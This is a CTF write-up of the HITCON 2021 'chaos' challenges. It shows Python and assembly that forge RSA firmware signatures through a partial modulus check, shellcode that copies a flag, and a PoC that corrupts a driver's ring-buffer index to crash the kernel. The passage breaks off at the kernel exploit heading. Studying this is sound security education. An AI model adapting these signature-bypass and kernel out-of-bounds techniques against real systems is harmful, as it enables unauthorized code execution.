



# Chaos

**Authors**: [Nspace](https://twitter.com/_MatteoRizzo), [gallileo](https://twitter.com/galli_leo_)

**Tags**: pwn, crypto, kernel, sandbox, heap

**Points**: 334 + 421 + 450

> Let's introduce our brand new device for this cryptocurrency era - CHAOS the CryptograpHy AcceleratOr Silicon!
>
> Remote Env: Ubuntu 20.04
>
> `nc 52.197.161.60 3154`
>
> [chaos-7e0d17f7553a86831ec6f1a5aba6bdb8cfab5674.tar.gz](https://hitcon-2021-quals.s3.ap-northeast-1.amazonaws.com/chaos-7e0d17f7553a86831ec6f1a5aba6bdb8cfab5674.tar.gz)

## Introduction

Last week we played HITCON CTF 2021, one of the hardest events of the year, and placed 4th. During the CTF we (Nspace and gallileo) spent most of our time working on the chaos series of challenges written by [david942j](https://twitter.com/david942j) and lyc. This writeup explains the structure of the challenges and discusses how we solved each of the 3 stages. Out of nearly 300 teams in the CTF, we were the only team to solve all 3 challenges, and the first team to solve chaos-kernel and chaos-sandbox.

Let's get started!

## Challenge architecture

This series of challenges simulates a custom hardware cryptographic accelerator attached to a Linux computer. The setup is fairly complex and has a lot of moving parts:

* A modified QEMU with a custom CHAOS PCI device. The virtual PCI device lets the guest interact with the emulated CHAOS chip.
* A Linux VM running inside QEMU. The VM loads a driver for the CHAOS chip, called `chaos.ko`, into the kernel. Userspace programs can talk to CHAOS through the driver.
* A userspace CHAOS client that uses CHAOS to perform cryptographic operations.
* A firmware binary that runs on the emulated CHAOS chip.
* A sandbox binary that emulates the CHAOS chip and runs the firmware.

The following image shows an overview all the components and how they interact.



There are 3 challenges in the series, each with a different flag:

* chaos-firmware (10 solves, 334 points): the flag is in a file outside the VM (`flag_fiwmare`).
* chaos-kernel (3 solves, 421 points): the flag is in a file inside the VM that only root can read.
* chaos-sandbox (2 solves, 450 points): the flag is in a file outside the VM (`flag_sandbox`).

### CHAOS virtual device

CHAOS is a virtual cryptographic accelerator attached to the PCI bus of the virtual machine. It exposes 2 PCI memory resources to the VM: a MMIO area with 16 registers (`csrs`), and 1 MB of dedicated on-chip memory (`dram`). The VM can interact with CHAOS by reading and writing to these two memory regions and CHAOS can send interrupts to the VM. The implementation is split in 3 parts: a virtual PCI device in QEMU, a sandbox binary, and some firmware that runs on the virtual chip.

The PCI device in QEMU doesn't do much. At startup it allocates space for the two memory regions using `memfd` and launches the sandbox binary. The QEMU process and the sandbox share the two memfds and two eventfds used to signal interrupts. After startup, the virtual PCI device is only used to send interrupts to the VM or the sandbox and to handle the VM's memory accesses.

### CHAOS sandbox

The sandbox does the actual chip emulation, so it's more interesting. At startup it mmaps the two shared memory areas, opens two flag files (`flag_firmware` and `flag_sandbox`), and waits until the VM sends it the firmware. Once the VM sends the firmware, the sandbox validates it, forks, and runs the firmware in the child process. The sandbox ptraces the firmware process and uses `PTRACE_SYSEMU` to intercept all the system calls made by the firmware. The firmware's system calls are not handled by the kernel, but by the sandbox. This lets the sandbox implement a custom syscall interface for the firmware, and prevents the firmware from directly accessing files or other system resources.

The sandbox implements only a few system calls:

* `exit` stops the firmware and sends the exit code back to the VM. The sandbox restarts the firmware on the next memory access from the VM.
* `add_key` and `delete_key` add and remove cryptographic keys supplied by the firmware to the sandbox's key storage.
* `do_crypto` performs a cryptographic operation on data supplied by the firmware and returns the result to the firmware.
* `get_flag` reads `flag_firmware` into the chip's memory.

### CHAOS firmware

The firmware is a flat x86_64 binary, which runs in a child process of the sandbox. Since it runs under ptrace with `PTRACE_SYSEMU`, it cannot directly make system calls to the kernel, but must do so through the sandbox. The firmware is not executed with `execve`, but simply loaded in memory and jumped to. It executes in a copy of the sandbox's memory space, so it has direct access to the MMIO area and the CHAOS device memory.
The challenge has an example firmware, but also lets us provide our own firmware, which can be an arbitrary binary up to 10 kB in size. The sandbox will refuse to load a firmware image unless it passes a RSA signature check.

### CHAOS driver

`chaos.ko` is a Linux kernel-mode driver that interfaces with the virtual CHAOS chip over PCI. It is responsible for managing the CHAOS chip's memory, loading the firmware, servicing interrupts, and providing userspace programs with an interface to the CHAOS chip. The userspace interface uses a misc character device (`/dev/chaos`) and exposes two IOCTLs:

* ALLOC_BUFFER allocates a buffer of a given size in the CHAOS chip's memory. This can only be done once per open file. After calling this ioctl the client can access the buffer by mmapping the file descriptor.
* DO_REQUEST sends a request to perform a cryptographic operation to the CHAOS chip, waits for the request to complete, and then returns.

The chip side of the interface uses two ring buffers: a command queue and response queue. The command queue contains request descriptors, which specify what operation CHAOS should perform. Each request descriptor contains a pointer to the input data in the CHAOS memory, the size of the data, an opcode, and a request ID. The response queue contains response descriptors (request ID and status code). After enqueuing a new request, the driver signals a mailbox in the CHAOS MMIO area, which makes the sandbox run the firmware, and the blocks.

When the firmware returns, the virtual PCI device raises an interrupt, which processes the request, then wakes up the request threads. When a blocked request thread sees that the chip completed its request, it unblocks and returns the result to userspace.

### CHAOS client

The last piece is the client, a regular Linux binary which runs in userspace in the VM. The client can interact with CHAOS through the interface exposed by the driver at `/dev/chaos`. Just like with the firmware, the challenge provides an example client, but also lets us use our own which can be an arbitrary binary up to 1 MB in size. Unlike the firmware, the client doesn't have to pass a signature check. The client runs as an unprivileged user, so it cannot read the flag inside the VM.

## Preparation

Since the challenge setup is quite complex with a lot of moving parts, we wanted to reduce the complexity and make debugging easier. Since Part 1 and Part 3 can ignore the kernel module and QEMU for the most part, we wrote a script to launch the sandbox binary standalone.

The setup is quite simple, we create the memfds and eventfds in python, then use `pwntools` to spawn the sandbox process. We also have some utility functions for "interacting" with the memory regions. The script shown below already uses part of the solution for Part 1. It also already contains more "advanced" firmware features we added for Part 3, being an output buffer so we can use `printf` inside the firmware.

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
# for type info in vscode
from pwnlib.tubes.process import process
from pwnlib import gdb, context
from pwnlib.elf import ELF
from ctypes import *
import os
import memfd
from pwn import *
from hashlib import sha256
from math import prod
from skein import threefish
import twofish

def memfd_create(name, flags):
    return memfd.memfd_create(name, flags)

# whatever
libc = cdll.LoadLibrary("libc.so.6")
def eventfd(init_val, flags):
    return libc.eventfd(init_val, flags)

# Set up pwntools for the correct architecture
exe = context.binary = ELF('sandbox')

# SETUP LOCAL ENV
csr_fd = memfd_create("dev-csr", 0)
log.info("csr_fd: %d", csr_fd)
os.truncate(csr_fd, 0x80)
dram_fd = memfd_create("dev-dram", 0)
log.info("dram_fd: %d", dram_fd)
os.truncate(dram_fd, 0x100000)
evtfd_to_dev = eventfd(0, 0)
log.info("evtfd_to_dev: %d", evtfd_to_dev)
evtfd_from_dev = eventfd(0, 0)

def preexec():
    # WARNING: using log.* stuff inside the preexec functions can cause hangs, no idea why
    # log.info("Before executing, setting up the filedescriptors")
    os.dup2(csr_fd, 3)
    os.dup2(dram_fd, 4)
    os.dup2(evtfd_to_dev, 5)
    os.dup2(evtfd_from_dev, 6)
    # log.info("Finished with duplicating filedesc")

def wait_for_interrupt():
    log.debug("Waiting for interrupt from device")
    res = os.read(evtfd_from_dev, 8)
    log.debug("Got 0x%x", u64(res))
    return res

def send_interrupt(val = 1):
    log.debug("Sending interrupt with val 0x%x", val)
    os.write(evtfd_to_dev, p64(val))

def write_mem(fd, off, val: bytes):
    log.debug("Writing to %d @ 0x%x: %s", fd, off, hexdump(val))
    os.lseek(fd, off, os.SEEK_SET)
    os.write(fd, val)

def write_mem_64(fd, off, val: int):
    write_mem(fd, off, p64(val))

def read_mem(fd, off, size) -> bytes:
    log.debug("Reading from %d @ 0x%x", fd, off)
    os.lseek(fd, off, os.SEEK_SET)
    return os.read(fd, size)

def read_mem_64(fd, off) -> int:
    res = read_mem(fd, off, 8)
    return u64(res)

def load_firmware(data, dram_off = 0):
    log.info("Loading firmware of size 0x%x, dram @ 0x%x", len(data), dram_off)
    # mapping firmware directly at beginning of dram, hopefully that's ok lmao
    write_mem(dram_fd, dram_off, data)
    write_mem_64(csr_fd, 0, dram_off)
    write_mem_64(csr_fd, 8, len(data))
    send_interrupt()
    res = wait_for_interrupt()
    int_val = u64(res)
    log.info("Got interrupt: 0x%x", int_val) # should be > 0x1336
    load_res = read_mem_64(csr_fd, 0)
    log.info("Got result for loading: 0x%x", load_res)

def build_firmware(shellcode):
    header = p32(len(shellcode))
    header += p8(0x82)
    header += bytes.fromhex("0fff0ee945bd4176f55a40543b3666843a0d565c339e5d8969fcd7ca921cc303a1c8af16240c4d032d1931632b90996dd48aebacee307d3c57bc83375698ae7df90d10163edee9e067ce46e738092257dafb15b80fb65961900deffa9b59b57e472bf56be0d9f648ad6908f2553be13a9ea0cda24317756cba5142a95e21f9e000040000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000")

    factors = [13, 691267, 20502125755394762434933579089125449307897345968084091731229436353808955447773787435286551243437724264561546459801643475331591701959705793105612360650011316069145033629055595572330904990306691542449400499839249687299626423918040370229280752606812185791663127069532707770334540305571214081730144598191170073
    ]
    phi=prod([i-1 for i in factors])
    dec=pow(0x10001,-1,phi)
    act = int.from_bytes(sha256(shellcode).digest(), "little")
    header += int.to_bytes(pow(act, dec, prod(factors)), 256, 'little')
    return header + shellcode

OUT_OFF = 0x50000

def read_outputbuf():
    ret = b""
    off = OUT_OFF
    while True:
        curr = read_mem(dram_fd, off, 1)
        if curr == b"\0":
            break
        ret += curr
        off += 1
    return ret

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    p = process([exe.path] + argv, *a, **kw)
    if args.GDB:
        gdb.attach(p, gdbscript=gdbscript)
    return p

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled

io = start(preexec_fn=preexec, close_fds=False)

# to allow attaching
if args.PAUSE:
    pause()

DRAM_START = 0x10000000

# sh = shellcraft.syscall(0xC89FC, arg0=DRAM_START + 0x1000)
# sh += shellcraft.syscall(60, 0)

# asm_sh = asm(sh)

import subprocess

subprocess.check_call(['make'])
firm = read("./firmware")
# firm = build_firmware(asm_sh)
load_firmware(firm)

log.info("Firmware read ok => launching firmware now!")
send_interrupt()

wait_for_interrupt()
# pause()
log.info("Got interrupt, firmware is done now!")

output = read_outputbuf()

log.info("Output buffer of firmware is:\n%s", hexdump(output))

log.info("As string:\n%s", output.decode("ascii", errors='ignore'))

io.interactive()
```

## Part 1: Firmware

The firmware can request the flag for this challenge from the
sandbox by using the `get_flag` syscall, and then write it to the CHAOS memory where our client in userspace can read it. Unfortunately the provided firmware never uses this system call, so there is no way to get the flag without either pwning the firmware from userspace or creating our own firmware that gets the flag and passes the RSA signature check. Since the challenge is in both the crypto and the pwn category and we can supply our own firmware, we tried to look for a way to bypass the signature check. This is the function that validates the firmware:

```c
struct firmware_header {
  uint32_t size;
  uint8_t key_size;
  uint8_t key[255];
  uint8_t signature[256];
  uint8_t data[];
};

static const uint8_t pubkey[] = { /*...*/ };

void load_firmware(void)
{
  uint32_t firmware_offset; // esi
  uint32_t firmware_size; // eax
  firmware_header *firmware; // rbx
  unsigned int key_size; // er14
  buffer *p_result; // rcx
  buffer *p_firm_sha; // rax
  buffer *v7; // rdx
  unsigned int size; // ebp
  unsigned int signature_size; // ebx
  uint8_t *sha_data; // r12
  uint8_t *x; // rax
  int rsa_e; // [rsp+Ch] [rbp-29Ch] BYREF
  buffer firm_data; // [rsp+10h] [rbp-298h] BYREF
  buffer firm_sha; // [rsp+20h] [rbp-288h] BYREF
  buffer n; // [rsp+30h] [rbp-278h] BYREF
  buffer signature; // [rsp+40h] [rbp-268h] BYREF
  buffer e; // [rsp+50h] [rbp-258h] BYREF
  buffer result; // [rsp+60h] [rbp-248h] BYREF
  firmware_header header; // [rsp+70h] [rbp-238h] BYREF

  firmware_offset = csr[0];
  firmware_size = csr[1];

  // Size/bounds checks
  if (firmware_size <= 0x204) {
    csr[0] = -22;
    return;
  }

  firmware = &dram_file.data[firmware_offset];
  memcpy(&header, firmware, sizeof(header));
  if (header.size + sizeof(header) != firmware_size || header.size > firmware_data.size ) {
    csr[0] = -22;
    return;
  }

  make_buffer(&firm_data, firmware->data, header.size);
  calc_sha256(&firm_sha, &firm_data);

  // Check the public key that signed the firmware.
  key_size = header.key_size;
  make_buffer(&n, firmware->key, header.key_size);
  if (memcmp(n.data, pubkey, 128)) {
    csr[0] = -129;
    return;
  }

  make_buffer(&signature, firmware->signature, key_size);

  // Verify the signature.
  rsa_e = 0x10001;
  make_buffer(&e, &rsa_e, 4);
  do_rsa_encrypt(&result, &n, &e, &signature);

  p_result = &result;
  p_firm_sha = &firm_sha;
  while (1) {
    size = p_firm_sha->size;
    signature_size = p_result->size;
    if ( size >= signature_size )
      break;
    v7 = p_firm_sha;
    p_firm_sha = p_result;
    p_result = v7;
  }

  sha_data = p_firm_sha->data;
  if (!memcmp(sha_data, p_result->data, signature_size)) {
    x = &sha_data[signature_size];
    while (size > signature_size) {
      if (*x++) {
        goto fail;
      }
      ++signature_size;
    }

    // Firmware valid
    memcpy(firmware_data.data, firm_data.data, firm_data.size);
    csr[0] = 0x8000000000000000LL;
    return;
  }

fail:
  csr[0] = -74;
}
```

The firmware verifies only the first 128 bytes of N, but N can be up to 255 bytes long, with the size controlled by us. Furthermore, there are no checks that N is actually a product of two primes. This means that we can sign the firmware with our own RSA key as long as the first 128 bytes of the modulus match the key accepted by the sandbox.

In short, we have to find a number $N'$ that is equal to the challenge's $N$ in the lowest 128 bytes such that $\phi(N')$ is easy to compute. Once we have $\phi(N')$ we can compute the private key and sign our own firmware. The intended solution is to look for a prime $N'$, since then $\phi(N') = N' - 1$, but we didn't think about this during the CTF and instead looked for a composite $N'$ that was easy to factor by setting bits above 1024.

Our teammate Aaron eventually found that $N' = (N \mod 2^{1024}) + 2^{1034}$ works and factors to 13 * 691267 * 20502125755394762434933579089125449307897345968084091731229436353808955447773787435286551243437724264561546459801643475331591701959705793105612360650011316069145033629055595572330904990306691542449400499839249687299626423918040370229280752606812185791663127069532707770334540305571214081730144598191170073. This script produces a valid signature for an arbitrary binary:

```py
from pwn import *
from hashlib import sha256
from math import prod

context.arch = "amd64"
shellcode = read('shellcode.bin')

header = p32(len(shellcode))
header += p8(0x82)
header += bytes.fromhex("0fff0ee945bd4176f55a40543b3666843a0d565c339e5d8969fcd7ca921cc303a1c8af16240c4d032d1931632b90996dd48aebacee307d3c57bc83375698ae7df90d10163edee9e067ce46e738092257dafb15b80fb65961900deffa9b59b57e472bf56be0d9f648ad6908f2553be13a9ea0cda24317756cba5142a95e21f9e000040000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000")

factors = [13, 691267, 20502125755394762434933579089125449307897345968084091731229436353808955447773787435286551243437724264561546459801643475331591701959705793105612360650011316069145033629055595572330904990306691542449400499839249687299626423918040370229280752606812185791663127069532707770334540305571214081730144598191170073]
phi=prod([i-1 for i in factors])
dec=pow(0x10001,-1,phi)

act = int.from_bytes(sha256(shellcode).digest(), "little")
header += int.to_bytes(pow(act, dec, prod(factors)), 256, 'little')

with open("firmware", "wb") as f:
    f.write(header + shellcode)
```

Now that we can sign and load our own firmware, we only have to write some code that loads the flag using the `get_flag` syscall and makes it available to the client. The easiest way is to have our client allocate and map a buffer in the CHAOS memory, then send a request to CHAOS. The firmware can then copy the flag in the response buffer and exit. Since we hadn't yet finished reversing the interface between CHAOS and the driver, we just wrote a firmware that copies the flag everywhere in the CHAOS memory instead of finding the buffer that the client is using.

```x86asm
BITS 64
DEFAULT rel

dram_size equ 0x100000
dram_start equ 0x10000000
dram_end equ dram_start + dram_size

.copy_loop2:
    ; get flag
    mov rdi, dram_start
    mov eax, 0xC89FC
    syscall

    mov rax, dram_start + 0x50

    .copy_loop
        mov rsi, dram_start
        mov rdi, rax
        mov rcx, 0x50
        rep movsb

        add rax, 0x50
        cmp rax, dram_end
        jb .copy_loop

jmp .copy_loop2

; exit
mov edi, 0
mov eax, 60
syscall
```

```c
struct request {
  int field_0;
  int field_4;
  int field_8;
  int field_c;
  int field_10;
  int field_14;
  int out_size;
};

int main(void)
{
    int fd = open("/dev/chaos", O_RDWR);
    assert(fd >= 0);

    assert(ioctl(fd, 0x4008CA00, 0x1000) >= 0);

    uint8_t *mem = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
    assert(mem != MAP_FAILED);

    struct request req = {
        .field_0 = 1,
        .field_4 = 0,
        .field_8 = 32,
        .field_c = 256,
        .field_10 = 32,
        .field_14 = 0,
        .out_size = 256,
    };
    ioctl(fd, 0xC01CCA00, &req);

    write(1, mem + 0x20, 0x50);

    return 0;
}
```

Flag: `hitcon{when the secure bootloader is not secure}`

## Part 2: Kernel

The flag for this part is in the VM, only readable to root. This means that we have to somehow exploit the kernel from our unprivileged client to become root. We control both the userspace client and the firmware, so we can attack the kernel from both sides.

### DMA attack

CHAOS uses a virtual PCI device. PCI is interesting from an attacker's point of view because it is bus mastering, which means that the devices can DMA to the host's memory. Pwning the kernel from such a device would be really easy because the device can read and write to all of physical memory. Unfortunately the virtual PCI device in Qemu doesn't use DMA, so it's impossible to DMA to the host memory from the device's firmware. All that the firmware can do is to write to its MMIO registers and its dedicated memory. Too bad.

### CHAOS driver analysis

We cannot directly attack the VM's kernel from the firmware, so it is very likely that we will need to find a bug in the driver and exploit it. We spent a few hours reversing the driver and understanding how it works and eventually found some bugs.

Recall that the driver uses two ring buffers to communicate with CHAOS. The driver puts commands in the command queue and receives responses in the response queue. Here is the code that adds a new command to the queue:

```c
int chaos_mailbox_request(struct chaos_mailbox *mailbox, struct chaos_request *req)
{
  struct chaos_cmd_desc cmd_desc = {0};

  // Generate a request ID.
  int request_id = _InterlockedExchangeAdd(&mailbox->request_id, 1) + 1;

  // Copy the request to the CHAOS memory.
  int ret = chaos_dram_alloc(mailbox->chaos_state->dram_pool, 28LL, &dram_request);
  if (ret != 0) {
    return ret;
  }

  struct chaos_req *dram_req = dram_request.virt_addr;
  memcpy(dram_req, req, sizeof(struct chaos_request));

  struct chaos_state *chaos_state = mailbox->chaos_state;
  uint64_t cmd_tail = chaos_state->csrs.virt_addr->cmd_tail;

  mutex_lock(&mailbox->cmdq_lock);
  uint64_t cmd_head = chaos_state->csrs.virt_addr->cmd_head;

  // Check if the command queue is already full.
  if ((cmd_head ^ cmd_tail) == 512) {
    mutex_unlock(&mailbox->cmdq_lock);
    chaos_dram_free(pool, &dram_request);
    return -16;
  }

  cmd_desc.req_id = request_id;
  cmd_desc.unk = 1;
  cmd_desc.buf_offset = dram_request.phys_addr - pool->dram_io_map->phys_addr;
  cmd_desc.size = 28;

  // Add the request to the command queue.
  memcpy(&mailbox->cmd_queue.virt_addr[cmd_head & 0xfffffffffffffdff], &cmd_desc, sizeof(cmd_desc));
  chaos_state->csrs.virt_addr->cmd_head = (cmd_head + 1) & 0x3FF;
  mutex_unlock(p_cmdq_lock);

  // Set the response to pending in the response queue.
  int resp_idx = request_id & 0x1FF;
  mailbox->responses[resp_index].result = -100;

  // Send an interrupt to the device.
  chaos_state->csrs.virt_addr->device_irq = 1;

  _cond_resched();
  uint32_t result = mailbox->responses[resp_index].result;
  bool timed_out = false;

  // Wait for the request to complete.
  if (result == -100) {
    long time_left = 2000;

    struct wait_queue_entry wq_entry;
    init_wait_entry(&wq_entry, 0);

    prepare_to_wait_event(&mailbox->waitq, &wq_entry, 2LL);

    // Wait up to 2000 jiffies.
    result = mailbox->responses[resp_index].result;
    while (time_left != 0 && result == -100) {
      time_left = schedule_timeout(time_left);
      prepare_to_wait_event(&mailbox->waitq, &wq_entry, 2LL);
      result = mailbox->responses[resp_index].result;
    }

    timed_out = time_left == 0 && result == -100;
    finish_wait(&mailbox->waitq, &wq_entry);
  }

  chaos_dram_free(pool, &dram_request);

  if (timed_out) {
    return -110;
  }

  if ((result & 0x80000000) != 0) {
    dev_err(mailbox->chaos_state->device, "%s: fw returns an error: %d", "chaos_mailbox_request", result);
    return -71;
  }

  req->out_size = result;

  return 0;
}
```

This function can write out of bounds of the command queue (which has size 512) if the head index of the command queue is greater than 512. At first glance it looks like this can never happen because the driver always ANDs the value of the head index with 0x3FF when incrementing it and then again with 0xdff when accessing the queue, so the index should always be at most 511. However the driver is not the only component that can modify the head index. The firmware also has access to it and can set it to arbitrary values. The following PoC sets the index to a very big value and panics the kernel with a page fault:

```c
int main(void)
{
    int fd = open("/dev/chaos", O_RDWR);
    assert(fd >= 0);

    assert(ioctl(fd, 0x4008CA00, 0x1000) >= 0);

    uint8_t *mem = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);
    assert(mem != MAP_FAILED);

    struct request req = {
        .field_0 = 1,
        .field_4 = 0,
        .field_8 = 32,
        .field_c = 256,
        .field_10 = 32,
        .field_14 = 0,
        .out_size = 256,
    };
    ioctl(fd, 0xC01CCA00, &req);
    ioctl(fd, 0xC01CCA00, &req);

    return 0;
}
```

```x86asm
BITS 64
DEFAULT rel

csr_start equ 0x10000

; overwrite the command queue's head pointer.
mov rax, 0x4141414141414141
mov [csr_start + 0x50], rax

; exit
mov edi, 0
mov eax, 60
syscall
```

```
[    2.964179] general protection fault, probably for non-canonical address 0x505019505070504d: 0000 [#1] SMP NOPTI
[    2.965393] CPU: 0 PID: 78 Comm: run Tainted: G           O      5.15.6 #5
[    2.966232] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS rel-1.14.0-0-g155821a1990b-prebuilt.qemu.org 04/01/2014
[    2.967558] RIP: 0010:chaos_mailbox_request+0x159/0x2e0 [chaos]
[    2.968249] Code: 48 89 d0 48 83 c2 01 80 e4 fd c7 44 24 2c 1c 00 00 00 81 e2 ff 03 00 00 4c 8d 04 40 4a 8d 04 80 4c 8b 44 24 23 48 03 44 24 10 <4c> 89 00 44 8b 44 24 2b 44 89 40 08 44 0f b6 44 24 2f 44 88 40 0c
[    2.970407] RSP: 0018:ffffc900001b7df8 EFLAGS: 00010207
[    2.971016] RAX: 505019505070504d RBX: ffffc900001b7ec4 RCX: 0000000000000002
[    2.971841] RDX: 0000000000000142 RSI: 0000000000000100 RDI: ffff888003f39058
[    2.972662] RBP: ffff888003eff2e8 R08: 0040000100000002 R09: ffffc90000204000
[    2.973483] R10: 000000000000003c R11: 00000000000000ca R12: 0000000000000000
[    2.974303] R13: 4141414141414141 R14: ffff888003f39028 R15: ffff888003f421a8
[    2.975126] FS:  0000000000408718(0000) GS:ffff88801f200000(0000) knlGS:0000000000000000
[    2.976047] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[    2.976704] CR2: 000000000042eb90 CR3: 0000000003f68000 CR4: 00000000000006f0
[    2.977526] Call Trace:
[    2.977820]  <TASK>
[    2.978071]  ? selinux_file_ioctl+0x16f/0x210
[    2.978582]  chaos_fs_ioctl+0x11c/0x230 [chaos]
[    2.979108]  __x64_sys_ioctl+0x7e/0xb0
[    2.979560]  do_syscall_64+0x3b/0x90
[    2.979981]  entry_SYSCALL_64_after_hwframe+0x44/0xae
```

The interrupt handler, which reads the result queue, has the same bug but this time it reads out of bounds instead of writing:

```c
void chaos_mailbox_handle_irq(struct chaos_mailbox *mailbox)
{
  struct chaos_state *chaos_state = mailbox->chaos_state;
  struct chaos_resp_desc *result_queue = mailbox->output_queue.virt_addr;
  raw_spin_lock(&mailbox->spinlock);
  uint64_t i = chaos_state->csrs.virt_addr->result_head;
  while (i != chaos_state->csrs.virt_addr->result_tail) {
    desc = &result_queue[i & 0xfffffffffffffdff];
    i = (i + 1) & 0x3FF;
    id = desc->req_id;
    result = desc->result;
    resp = &mailbox->responses[desc->req_id & 0x1FF];
    resp->req_id = id;
    resp->result = result;
  }
  chaos_state->csrs.virt_addr->result_head = i;
  spin_unlock(&mailbox->spinlock);
  _wake_up(&mailbox->waitq, 3, 1, 0);
}
```

This gives us an out of bounds read/write, which should be enough to completely own the kernel.

### Exploit

